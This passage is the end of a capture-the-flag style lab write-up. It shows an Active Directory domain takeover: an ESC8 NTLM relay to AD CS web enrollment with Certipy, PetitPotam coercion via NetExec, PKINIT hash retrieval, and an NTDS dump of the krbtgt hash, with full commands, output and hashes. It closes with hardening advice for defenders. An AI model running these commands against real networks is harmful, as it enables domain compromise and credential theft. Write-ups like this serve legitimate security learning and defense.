        Write Owner Principals          : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Write Dacl Principals           : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Write Property Enroll           : SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Domain Controllers
                                          SHADOW.GATE\Enterprise Admins
                                          SHADOW.GATE\Enterprise Domain Controllers
```

The full template list shows a `DomainController` template that is enabled and published on `shadow-DC01-CA`.



*DomainController template with enrollment rights for Domain Controllers*

## ESC8

ESC8 is an AD CS attack where an HTTP-based certificate enrollment endpoint accepts NTLM authentication without enforcing channel binding (EPA) or requiring HTTPS. This allows us to relay a coerced NTLM authentication from a victim like a Domain Controller to the web enrollment endpoint and request a certificate on the victim's behalf. The relayed session enrolls a certificate which can then be used to authenticate via Kerberos PKINIT. This is not a misconfigured template but a weakness in how the CA's web enrollment service handles authentication.

For ESC8 to work we need a template that the relayed identity is authorized to enroll in. Since we are coercing and relaying the `DC01$` machine account, we need a template where Domain Controllers have enrollment rights. The `DomainController` template fits: it supports Client Authentication and Server Authentication EKUs for PKINIT, grants enrollment rights to Domain Controllers, and does not require manager approval or authorized signatures.

We start Certipy's built-in relay listener targeting the Web Enrollment endpoint with the `DomainController` template.

```
certipy-ad relay -target 'http://10.0.30.253' -template 'DomainController' -subject 'CN=DC01$'
```

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Targeting http://10.0.30.253/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
```

With the relay running, we use the `coerce_plus` module in NetExec to trigger PetitPotam (MS-EFSRPC abuse) and coerce `DC01` into authenticating to our attacker machine.

```
nxc smb 10.0.30.253 -u 'bbrown' -p '12345678' -M coerce_plus -o LISTENER=10.200.58.13 METHOD=PetitPotam
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\bbrown:12345678 
COERCE_PLUS 10.0.30.253    445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.0.30.253    445    DC01             Exploit Success, efsrpc\EfsRpcAddUsersToFile
```

Back in our Certipy relay window we see the authentication relayed and a certificate issued.

```
[*] (SMB): Received connection from 10.0.30.253, attacking target http://10.0.30.253
[*] HTTP Request: GET http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] (SMB): Authenticating connection from /@10.0.30.253 against http://10.0.30.253 SUCCEED [1]
[*] Requesting certificate for '\\' based on the template 'DomainController'
[*] http:///@10.0.30.253 [1] -> HTTP Request: POST http://10.0.30.253/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Certificate issued with request ID 3
[*] Retrieving certificate for request ID: 3
[*] (SMB): Received connection from 10.0.30.253, attacking target http://10.0.30.253
[*] http:///@10.0.30.253 [1] -> HTTP Request: GET http://10.0.30.253/certsrv/certnew.cer?ReqID=3 "HTTP/1.1 200 OK"
[*] Got certificate with subject: CN=DC01.shadow.gate
[*] Got certificate with DNS Host Name 'DC01.shadow.gate'
[*] Certificate object SID is 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
[*] Exiting...
```



*ESC8 relay: certificate issued for DC01$*

We now have a PFX certificate file for the `DC01$` machine account.

## Certipy Auth

With the PFX in hand we authenticate using Certipy to obtain a TGT and the NT hash for `DC01$` via PKINIT.

```
certipy-ad auth -pfx dc01.pfx -dc-ip 10.0.30.253
```

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC01.shadow.gate'
[*]     Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': aad3b435b51404eeaad3b435b51404ee:4b0ddf5b481c1983d3701a43dcfed9a6
```



*Certipy PKINIT: TGT and NT hash for DC01$*

Certipy authenticates with the certificate and retrieves the NT hash for the `DC01$` machine account. We now have both a ccache file and the NTLM hash.

## NTDS Dump

With the NT hash for `DC01$` we can dump the NTDS and pull the `krbtgt` hash with NetExec.

```
nxc smb 10.0.30.253 -u 'DC01$' -H 'aad3b435b51404eeaad3b435b51404ee:4b0ddf5b481c1983d3701a43dcfed9a6' --ntds --user KRBTGT
```

```
SMB         10.0.30.253    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.0.30.253    445    DC01             [+] shadow.gate\DC01$:4b0ddf5b481c1983d3701a43dcfed9a6 
SMB         10.0.30.253    445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.0.30.253    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.0.30.253    445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5509cbfe52e94940c0ec99b21e09802:::
SMB         10.0.30.253    445    DC01             [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.0.30.253_2026-06-11_180932.ntds of which 1 were added to the database
SMB         10.0.30.253    445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.0.30.253    445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_10.0.30.253_2026-06-11_180932.ntds | cut -d ':' -f1
```



*NTDS dump: krbtgt hash recovered*

We recover the `krbtgt` NT hash `b5509cbfe52e94940c0ec99b21e09802` and compromise the entire domain.

## Final Thoughts

ShadowGate is a solid easy-difficulty lab that covers a realistic AD attack chain. Starting from anonymous access with no credentials, I chained AS-REP Roasting into a BloodHound-guided ACL abuse path, pivoted through a Targeted Kerberoast, and landed on an ESC8 misconfiguration that gave me the keys to the kingdom. Using Certipy's built-in relay instead of `impacket-ntlmrelayx` kept the ESC8 portion clean.

The ESC8 portion is what makes this lab stand out. NTLM relay attacks against AD CS web enrollment are something defenders need to be aware of. Disabling HTTP-based enrollment, enforcing HTTPS with channel binding (EPA), and restricting which templates are published on the CA are all critical hardening steps. The ACL chain from `jtrueblood` to `bbrown` via `GenericWrite` shows exactly why defenders need to be auditing object-level permissions in Active Directory. Tools like BloodHound make these paths visible, and defenders should be running the same queries attackers do.

— 0xB1rd
